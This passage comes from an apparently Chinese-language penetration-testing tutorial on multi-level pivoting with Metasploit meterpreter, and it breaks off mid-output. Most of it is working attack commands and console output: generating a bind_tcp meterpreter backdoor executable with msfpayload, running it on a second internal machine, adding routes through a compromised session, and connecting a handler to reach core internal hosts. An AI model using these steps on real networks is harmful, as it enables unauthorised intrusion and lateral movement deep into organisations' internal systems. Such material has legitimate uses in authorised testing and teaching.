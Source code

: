 <img class="lazy " title="2222.png" src="http://www.evil0x.com/wp-content/uploads/2015/01/1421221055573.png" alt="" data-original="http://www.evil0x.com/wp-content/uploads/2015/01/1421221055573.png" />

可以看到已经成功访问

0×02  多级代理

1. 二级代理隧道

上面介绍了meterpreter基础的代理方法，但是有些实际环境不能直接使用，考虑如下环境(内网机器A、B。A机器可以对外连接，但是访问控制很严格，只能访问到很少的内网机器，B机器不能对外连接，但是可以访问到很多核心服务和机器，A、B之间可以互相访问)，如果我们想通过B机器对核心服务和机器进行扫描和访问要怎么办呢？

这时候我们就meterpreter的pivot组合轻松实现二级代理就可以

效果示意图:attacker->xp-test1->xp-test2

首先接着上面，我们已经有一个xp-test1反弹回来的meterprter了，接着我们生成一个正向的执行文件
<pre class="prettyprint lang-html prettyprinted">root@kali:~# msfpayload windows/meterpreter/bind_tcp  RHOST=0.0.0.0 RPORT=4444 X > Rmeter.exe
[!] ************************************************************************
[!] *               The utility msfpayload is deprecated!                  *
[!] *              It will be removed on or about 2015-06-08               *
[!] *                   Please use msfvenom instead                        *
[!] *  Details: https://github.com/rapid7/metasploit-framework/pull/4333   *
[!] ************************************************************************
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/bind_tcp
 Length: 285
Options: {"RHOST"=>"0.0.0.0", "RPORT"=>"4444"}</pre>
生成好以后在xp-test2上面运行

接着在msf里面添加路由
<pre class="prettyprint lang-html prettyprinted">msf exploit(handler) > route add 10.1.1.129 255.255.255.255 2
[*] Route added
msf exploit(handler) > route  print
Active Routing Table
====================
   Subnet             Netmask            Gateway
   ------             -------            -------
   10.1.1.129         255.255.255.255    Session 2</pre>
连接正向 meterpreter获取权限
<pre class="prettyprint lang-html prettyprinted">msf exploit(handler) > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows//bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(handler) > set RHOST 10.1.1.129
RHOST => 10.1.1.129
msf exploit(handler) > show options 
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/meterpreter/bind_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LPORT     444              yes       The listen port
   RHOST     10.1.1.129       no        The target address
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > show options 
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/meterpreter/bind_tcp):